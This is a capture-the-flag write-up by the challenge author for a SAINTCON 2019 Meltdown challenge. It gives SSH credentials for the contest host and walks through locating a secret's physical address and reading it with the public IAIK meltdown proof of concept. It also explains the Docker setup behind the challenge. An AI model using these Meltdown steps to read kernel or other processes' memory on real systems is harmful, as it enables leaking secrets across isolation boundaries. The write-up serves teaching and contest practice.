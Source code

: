 
# Hint

```
I'll stop the world and melt with you.

https://www.youtube.com/watch?v=LuN6gs0AJls
https://genius.com/Modern-english-i-melt-with-you-lyrics

host: 208.71.143.18
protocol: ssh
port: 1337
user: rigel
password: dontmeltme
```

# additional hints

These "hints" were added after the contest started.

```
Brute forcing all of memory for meltdown will take longer than the con lasts. Dont' do it.

Don't leave processes running for more than a minute or so.

(and clean up after yourself, please =)
```

# solution

The goal of this challenge is to exploit the meltdown vulnerability
to recover a key stored in another container (actually the root host).
I wasn't subtle about what the vulnerability was (title of the
challenge was "meltdown" afterall), but the question is really
where is the key?

Well, when you're given ssh access to a host, you should -always- go
poking around and see what's there.

```
$ ssh [ipaddress] -l rigel -p [port num]
rigel@nyx.home's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Oct 28 11:44:27 MDT 2019

  System load:  2.0                Processes:              161
  Usage of /:   0.6% of 436.15GB   Users logged in:        0
  Memory usage: 0%                 IP address for eth1:    172.16.0.17
  Swap usage:   0%                 IP address for docker0: 172.17.0.1

  Graph this data and manage this system at:
    https://landscape.canonical.com/

203 packages can be updated.
149 updates are security updates.

Last login: Mon Oct 28 11:44:27 2019 from ec2-3-93-103-205.compute-1.amazonaws.com
rigel@bf1593ce9345:~$ who
rigel@bf1593ce9345:~$ find .
.
rigel@bf1593ce9345:~$ id -a
uid=1001(rigel) gid=1001(rigel) groups=1001(rigel)
rigel@bf1593ce9345:~$ tail /etc/passwd
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
jason:x:1000:1000:Jason Wright,,,:/home/jason:/bin/bash
rigel:x:1001:1001::/home/rigel:/bin/dosh
```

Ok, so there's nothing in our own home directory, but there is another user
called "jason".

```
rigel@bf1593ce9345:~$ find ~jason
/home/jason
/home/jason/.bash_history
rigel@bf1593ce9345:~$ cat ~jason/.bash_history
sudo taskset 1 ./secret > /tmp/testing
rigel@bf1593ce9345:~$ cat /tmp/testing
[+] Physical address of secret: 0x7f9aa69a0
[+] Exit with Ctrl+C if you are done reading the secret
```

Ah hah! It seems "jason" was experimenting with the meltdown vulnerability,
and it seems the secret might be at physical address 0x7f9aa69a0 (note:
the actual address changes each time I boot the host OS, but I ensure that
the `/tmp/testing` file is accurate.

```
rigel@bf1593ce9345:~$ git clone https://github.com/IAIK/meltdown.git
Cloning into 'meltdown'...
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 292 (delta 0), reused 1 (delta 0), pack-reused 288
Receiving objects: 100% (292/292), 30.43 MiB | 1.32 MiB/s, done.
Resolving deltas: 100% (161/161), done.
rigel@bf1593ce9345:~$ cd meltdown
rigel@bf1593ce9345:~/meltdown$ taskset 1 ./physical_reader 0x7f9aa69a0
[+] Physical address       : 0x7f9aa69a0
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff8807f9aa69a0

^C
```

Well, that didn't work (sometimes it does, but usually not). Buried in the README for
meltdown is the text "It just does not work on my computer". Most of the suggestions
are not viable given the level of access you have (i.e. you're not disabling hyperthreads
in the BIOS, etc.). But, one says:


> Use a different variant of Meltdown. This can be changed in libkdump/libkdump.c in the line
> #define MELTDOWN meltdown_nonull. Try for example meltdown instead of meltdown_nonull,
> which works a lot better on some machines (but not at all on others).

On this particular machine, setting MELTDOWN to meltdown works well.

```
rigel@bf1593ce9345:~/meltdown$ vi libkdump/libkdump.c
rigel@bf1593ce9345:~/meltdown$ make
...
rigel@bf1593ce9345:~/meltdown$ taskset 1 ./physical_reader 0x7f9aa69a0
[+] Physical address       : 0x7f9aa69a0
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff8807f9aa69a0

ctf{yougotyourspectreinmymeltdown}

^C

# common errors

I found several folks trying to use `memdump` from the meltdown archives to dump all of
physical memory. That's effective (maybe), but would take longer than the 3.5 days of saintcon,
and you'd still need to find the key in the dump you retrieved.

Several folks left out the "taskset" part of the command line. It matters: only cpu core 1
has the key forced into the cache. The other 7 cores may or may not (most likely not) have the
physical address in cache.

# setting up the challenge

This is the behind the scenes of how the challenge was configured.

On the host, I ran
a modified version of the meltdown "secret" program. The only real modification was to
read the secret from a file and to fflush() it's output after it printed the physical
address information. This program runs as root on the host (it needs access to
`/proc/$pid/pagemap` to compute the physical address of the key). After printing the
location, it sets in a busy loop constantly reading the memory address (which forces
it to stay resident in the cache).

Users were allowed to `ssh` into the machine... ok, not really, the "rigel" user has
a shell of "dosh" which looks like:

```
#!/bin/bash
sudo /bin/shell2docker
```

(note: /bin/dosh was added to `/etc/shells` too)

And `/bin/shell2docker` looks like:

```
#!/bin/bash
if [ $SUDO_USER ]; then
  username=$SUDO_USER
else
  username=$(whoami)
fi
uid="$(id -u $username)"
gid="$(id -g $username)"
docker run --rm -it \
  -u $uid:$gid -it \
  --cap-drop=all \
  -v /etc/passwd:/etc/passwd:ro \
  -v /etc/group:/etc/group:ro \
  hello
```

This dumps the user into a temporary (--rm) docker container with the priviledges of the
"rigel" user. The docker container name is the descriptively named "hello" container.
It's dockerfile looks like:

```
FROM ubuntu
WORKDIR /home/rigel

RUN apt-get update; apt-get -y install build-essential git-core
RUN apt-get -y install \
    nano \
    screen \
    tmux \
    vim

COPY testing /tmp/testing
RUN chown 1000:1000 /tmp/testing
RUN chmod 644 /tmp/testing
RUN install -d -o 1000 -g 1000 -m 755 /home/jason
COPY bash_history /home/jason/.bash_history
RUN chown 1000:1000 /home/jason/.bash_history
RUN chmod 644 /home/jason/.bash_history
RUN chown 1001:1001 /home/rigel

CMD ["/bin/bash", "-l", "-i"]
```

This container is rebuilt each time the machine boots (after secret is running) to
include the new `/tmp/testing` file.

# author

This challenge and walkthrough was created by Jason L. Wright
[jason@thought.net](mailto:jason@thought.net),
[@risenrigel](https://twitter.com/risenrigel)
